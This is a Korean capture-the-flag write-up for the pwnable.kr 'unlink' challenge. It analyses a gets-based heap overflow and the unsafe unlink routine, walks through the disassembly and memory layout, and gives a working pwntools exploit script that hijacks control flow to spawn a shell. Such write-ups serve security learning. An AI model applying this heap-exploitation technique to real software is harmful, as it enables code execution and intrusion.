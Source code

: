 ```yaml
---
sort: 19
---
```


# unlink

home 디렉토리에 unlink.c파일에 소스코드가 들어있다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

OBJ A, B, C의 크기가 같은데 연속적으로 malloc을 했기 때문에 heap상에서 가까이 있을 것 같다.<br>
또한 A->buf를 gets가지고 받고있기 때문에 buffer overflow를 통해서 object의 fd, bk 포인터를 변조해서 unlink를 할 때 프로그램의 흐름을 변경시킬 수 있을 것 같다.<br><br>
c코드만 봐서는 이 문제 못푼다. main을 disassemble해야 문제를 풀 수 있다. c코드에는 나와있지 않은 코드부분이 존재하기 때문이다.

```gdb
(gdb) disas main
Dump of assembler code for function main:
   0x0804852f <+0>:     lea    0x4(%esp),%ecx
   0x08048533 <+4>:     and    $0xfffffff0,%esp
   0x08048536 <+7>:     pushl  -0x4(%ecx)
   0x08048539 <+10>:    push   %ebp

   ... (중략) ...

   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
```

main함수의 첫부분과 끝부분에 희한한 가젯이 존재한다. 이를 이용해야 문제를 풀 수 있다.<br>
잘 보면 ebp - 4에 위치한 값을 ecx로 옮기고, ecx - 4에 위치한 값을 esp로 옮긴 뒤에 ret를 때리는 것을 확인할 수 있다. 따라서 ebp - 4에 저장되어있는 값을 조진다면 프로그램의 흐름을 변경시킬 수 있다.<br>
아래 그림과 같이 변조하면 main함수가 종료되고 ret될 때 shell함수를 실행시킬 수 있다.

<img src="/picture/pwnable.kr/unlink.png" width="1000"/>

```gdb
(gdb) b* 0x080485e4
Breakpoint 1 at 0x80485e4
(gdb) r
Starting program: /home/unlink/unlink
here is stack address leak: 0xffad9c64
here is heap address leak: 0x8464410
now that you have leaks, get shell!

Breakpoint 1, 0x080485e4 in main ()
(gdb) x/20wx 0x8464410
0x8464410:      0x08464428      0x00000000      0x00000000      0x00000000
0x8464420:      0x00000000      0x00000019      0x08464440      0x08464410
0x8464430:      0x00000000      0x00000000      0x00000000      0x00000019
0x8464440:      0x00000000      0x08464428      0x00000000      0x00000000
0x8464450:      0x00000000      0x00000409      0x20776f6e      0x74616874

(gdb) i r ebp
ebp            0xffad9c78       0xffad9c78
```

위와 같이 A, B, C 주소값이 0x18씩 나는 것과, stack 내의 지역변수 A와 ebp사이의 간격이 0x14인 것을 알아내었다.<br>
따라서 payload를 아래와 같이 짜면 된다.

```python
from pwn import *

p = process("/home/unlink/unlink")
print(p.recvuntil(": "))
stack_addr = int(p.recvuntil("\n")[:-1], 16)

print(p.recvuntil(": "))
heap_addr = int(p.recvuntil("\n")[:-1], 16)

print(p.recvline())

#              shell()      padding   B->fd = A->buf[4]의 주소  B->bk = main의 ebp - 4
p.sendline(p32(0x080484eb) + "A"*12 + p32(heap_addr + 12) + p32(stack_addr + 16))
p.interactive()
```

```bash
unlink@pwnable:/tmp/dlfjs123$ python script.py
[+] Starting local process '/home/unlink/unlink': pid 406493
here is stack address leak:
here is heap address leak:
now that you have leaks, get shell!

[*] Switching to interactive mode
$ cat ~/flag
```

```tip
## 알게 된 점

c코드만 보지 말고 어셈도 보자.
```